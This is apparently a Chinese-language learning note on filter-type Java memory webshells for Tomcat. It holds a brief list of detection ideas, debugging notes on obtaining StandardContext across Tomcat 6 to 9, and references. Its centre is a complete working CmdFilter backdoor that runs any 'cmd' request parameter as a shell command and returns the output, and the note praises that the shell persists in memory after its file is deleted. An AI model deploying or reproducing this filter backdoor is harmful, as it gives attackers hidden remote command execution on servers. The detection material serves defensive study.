## filter 型内存马

filter型内存马是将命令执行的文件通过动态注册成一个恶意的filter，这个filter没有落地文件并可以让客户端发来的请求通过它来做命令执行。


### filter检测思路


带有特殊含义的filter的名字比如shell等

Filter的优先级，filter内存马需要将filter调至最高

查看web.xml中有没有filter配置

检测特殊的classloader

检测classloader路径下没有class文件

检测Filter中的doFilter方法是否有恶意代码


## 代码调试



CmdFilter.java

	import javax.servlet.*; // //apache-tomcat-7.0.79\lib\servlet-api.jar
	import javax.servlet.annotation.WebFilter;
	import javax.servlet.annotation.WebServlet;
	import javax.servlet.http.HttpServletRequest;
	import javax.servlet.http.HttpServletResponse;
	import java.io.IOException;
	import java.io.InputStream;
	import java.util.Scanner;
	
	//@javax.servlet.annotation.WebFilter(filterName = "CmdFilter")
	@WebFilter("/*")
	public class CmdFilter implements javax.servlet.Filter {
	    public void destroy() {
	    }
	
	    public void doFilter(javax.servlet.ServletRequest req, javax.servlet.ServletResponse resp, javax.servlet.FilterChain chain) throws javax.servlet.ServletException, IOException {
	        //HttpServletRequest req1 = (HttpServletRequest) req;
	        //HttpServletResponse resp1 = (HttpServletResponse) resp;
	        // 如果有cmd 参数 则拦截，否则 404
	        if (req.getParameter("cmd") != null) {
	            boolean isLinux = true;
	            String osTyp = System.getProperty("os.name");
	            if (osTyp != null && osTyp.toLowerCase().contains("win")) {
	                isLinux = false;
	            }
	            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
	            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
	            //Scanner通过用户回车进行读取IO流,然后扫描是否有分隔符,如果没有,那么继续等待下一段IO流.
	            Scanner s = new Scanner(in).useDelimiter("\\A");  //设置当前scanner的分隔符,默认是空格,正则表达式"\\A"跟"^"的作用是一样的，代表文本的开头。
	            String output = s.hasNext() ? s.next() : "";
	            resp.getWriter().write(output);
	            resp.getWriter().flush();
	        }
	        chain.doFilter(req, resp);
	    }
	    public void init(javax.servlet.FilterConfig config) throws javax.servlet.ServletException {
	    }
	}

将编译后含有内存马的文件删掉仍不影响执行，这就是内存马的魅力！





**只有在服务端重启 tomcat 才会清除内存马。**


### 进一步

需要的4个jar都在tomcat 的lib文件夹下

	catalina.jar 、servlet-api.jar 、tomcat-api.jar 、tomcat-util-scan-8.0.1.jar

## tomcat 6,7,8,9 通用内存马

参考 [一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914) 

原文代码和逻辑有问题，我做了修改：

	见2.jsp

浏览器访问：


服务器日志：



**遇到的坑**

1.多线程调试

Koalr佬告诉我tomcat 默认就是多线程处理请求的，别用类 直接用函数，单步跟一下 别用 thread 起， 类会断不下，也就是多线程不进入断点。



于是我参考 [在JSP页面中定义方法函数](https://blog.csdn.net/qq15577969/article/details/112808267) , 将方法写在 ```<%! %>```里面，将其他代码写在 ```<% %>```里面。

2.tomcat7 tomcat-util.jar 不包含一个类 ```https://github.com/apache/tomcat/blob/7.0.x/java/org/apache/tomcat/util/buf/MessageBytes.java```，也是K佬帮我找到的，在tomcat-coyote.jar里，可能是7版本之后打包方式变了，源码一直有的。如果无脑把tomcat lib下jar都add path，也不会有问题。



**我的经验总结**

```getField(jioEndPoint, "handler").proto.endpoint.poller.selector.keys[0]```



```getField(jioEndPoint, "handler").proto.endpoint.poller.selector.keys.toArray()[0].channel.localAddress.toString()```


```jioEndPoint.poller.selector.keys.toArray()[0].channel.localAddress.toString()```


每个Tomcat版本下，都会开一个Http-xio-端口-Acceptor的线程，Acceptor是用 来接收请求的，这些请求自然会交给后面的Engine->Host->Context->servlet


```(threads[6].target.endpoint.poller.selector.keys).toArray()[0].channel.toString()```



即使使用ip访问，线程获取到的只有localhost，不过这并不影响最终获取：

Tomcat9：

Poller线程：


```threads[5].target.this$0.handler.proto.adapter.connector.service.engine.children```



Acceptor线程：

```threads[6].target.endpoint.handler.proto.adapter.connector.service.engine.children```



获取到 StandardContext:



[Tomcat Acceptor/Poller](https://blog.csdn.net/u011385186/article/details/53148702)

## reference

[java dofilter_Java 中的过滤器Filter](https://blog.csdn.net/weixin_35408656/article/details/114216314)

[Java Web之过滤器Filter（@WebFilter）--IDEA创建Filter](https://blog.csdn.net/weixin_44989630/article/details/121357652)

[idea右键创建Servlet、Filter、Listener类](https://blog.csdn.net/qq_45953233/article/details/117536332)

[Tomcat 6/7/8/9全版本回显](https://www.cnblogs.com/zpchcbd/p/15153518.html)

[Java安全之基于Tomcat实现内存马](https://www.cnblogs.com/nice0e3/p/14622879.html) 本文给了一个tomcat内存马demo，已复现

[java内存马分析集合](https://blog.csdn.net/hongduilanjun/article/details/123953157) 给出了servlet/filter型内存马等利用

[【安全记录】通过jsp文件注入内存马](https://blog.csdn.net/FHLZLHQ/article/details/119947107)  介绍了通过jsp生成filter型和servlet型内存马

[Java内存马：一种Tomcat全版本获取StandardContext的新方法](https://xz.aliyun.com/t/9914)

[Tomcat 内存马学习(二)：结合反序列化注入内存马](http://wjlshare.com/archives/1541)

[Tomcat中一种半通用回显方法](https://xz.aliyun.com/t/7348#toc-3)

[linux下java反序列化通杀回显方法的低配版实现](https://xz.aliyun.com/t/7307)

备注：

tomcat 7 整个大版本这个类打包到 tomcat-coyote.jar里了

https://github.com/apache/tomcat/blob/7.0.x/java/org/apache/tomcat/util/buf/MessageBytes.java

在 tomcat 8 开始 这个类被打包到 tomcat-util.jar 里，如果发现jar找不到，不妨把tomcat lib 下 所有jar build path

https://mvnrepository.com/artifact/org.apache.tomcat/tomcat-util


Todo：

[内存马介绍及分析（转载）](https://blog.csdn.net/QQ584674068/article/details/121971247)

[手把手教你实现tomcat内存马](https://jishuin.proginn.com/p/763bfbd78371)

[利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)

[Java Agent 从入门到内存马](https://xz.aliyun.com/t/9450)

[浅谈 Java Agent 内存马](https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq)